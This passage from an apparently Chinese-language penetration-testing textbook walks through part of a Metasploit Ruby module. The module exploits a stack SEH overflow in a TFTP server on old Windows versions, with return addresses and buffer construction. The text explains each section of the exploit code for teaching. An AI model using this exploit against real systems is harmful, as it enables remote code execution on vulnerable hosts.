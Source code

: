 ```
        },
      'Platform'       => 'win',
      'Targets'        => ❻
        [
          ['Windows 2000 Pro English ALL',   { 'Ret' => 0x75022ac4} ], # ws2help.dll
          ['Windows XP Pro SP0/SP1 English', { 'Ret' => 0x71aa32ad} ], # ws2help.dll
          ['Windows NT SP5/SP6a English',    { 'Ret' => 0x776a1799} ], # ws2help.dll
          ['Windows 2003 Server English',    { 'Ret' => 0x7ffc0638} ], # PEB return
        ],
      'Privileged'     => true,
      'DisclosureDate' => 'May 31 2005'))

    register_options(
      [
        Opt::RPORT(69) ❼
      ], self.class)

  end ❽

  def exploit
    connect_udp❾

    print_status("Trying target #{target.name}...")

    sploit  = "\x00\x01" + rand_text_english(14, payload_badchars) + "\x00"
    sploit += rand_text_english(167, payload_badchars)
    seh  = generate_seh_payload(target.ret)
    sploit[157, seh.length] = seh
    sploit += "\x00"

    udp_sock.put(sploit) ❿

    handler
    disconnect_udp
  end
end
```

在类定义 ❶ 中，以及包含语句 ❷ 中，模块的作者告诉 Metasploit 该模块将继承哪些 mixins 或库的构造。这是一个通过 UDP 实现的远程漏洞，使用了 SEH 覆盖攻击。

在 `Payload` 部分 ❸，我们告诉 Metasploit 在攻击字符串中可用来放置有效载荷的字节数。我们还列出了需要避免的不良字符 ❹。`StackAdjustment` 选项 ❺ 告诉 Metasploit 将 ESP 移动到有效载荷的开始处，为有效载荷在堆栈上腾出更多空间，以便它能正常工作而不被自己覆盖。

在 `Targets` 部分 ❻，作者列出了 Metasploit 可以攻击的所有目标及其相关的返回地址。（请注意，我们不需要以小端格式编写返回地址。我们稍后将在模块中处理这个问题。）除了 *Exploit::Remote::UDP* 混入模块的默认选项外，作者还将 `RPORT` 选项注册为 69 ❼，这是 TFTP 的默认端口。许多编程语言使用括号来标识函数或循环等代码块。Python 使用缩进，而 Ruby（此处使用的语言）则使用 `end` ❽ 来标识代码块的结束。

*Exploit::Remote::UDP* 混入模块为我们完成了设置 UDP 套接字的所有工作。我们需要做的就是调用函数`connect_udp` ❾。（你可以在 Kali 的 */usr/share/metasploit-framework/lib/msf/core/exploit/udp.rb* 文件中找到`connect_udp`及其他*Exploit::Remote::UDP* 方法的详细信息。）

然后，作者告诉 Metasploit 如何创建漏洞字符串。漏洞字符串构建完成后，作者使用`udp_sock.put`方法 ❿ 将其发送到易受攻击的服务器。
